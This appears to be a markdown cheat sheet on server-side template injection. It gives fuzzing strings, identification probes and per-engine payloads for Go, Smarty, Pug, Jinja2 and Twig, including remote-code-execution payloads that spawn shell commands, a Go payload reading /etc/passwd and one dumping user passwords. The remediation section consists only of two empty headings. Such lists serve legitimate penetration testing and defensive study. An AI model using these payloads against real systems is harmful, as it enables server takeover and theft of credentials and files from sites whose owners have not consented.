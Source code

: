# Server Side Template Injection (SSTI)

## Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

## https://book.hacktricks.xyz/

## Payloads Fuzzing: 

    ${{<%'"}}%

## PoC Payload for Identification: 

    ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads of different templates:

## Go SSTI

#### 1) 

    {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

#### 2) 

    {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

#### 3) 

    {{ .ExecuteCmd "whoami" }} Executes commands

#### 4) 

    {{ . }} (Dumps variables)

## PHP - Smarty

#### PoC Enumeration Payload

    {'Hello'|upper}
  
#### RCE Payload

    {system("id")}

## NodeJS - Pug

### PoC Payload

    #{7*7}

### RCE Payload

    #{root.process.mainModule.require('child_process').spawnSync('id').stdout}

### SpawnSync RCE Payload with arguments

    #{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}

## Python - Jinja2

### PoC Payload

    {{7*7}}

### RCE Payload

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("id")}}

### check_output RCE Payload with arguments

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}

## PHP - Twig

### PoC Payload

    {{7*7}}

### RCE Payload

    {{exec('id')}}

    {{['id',""]|sort('passthru')}}
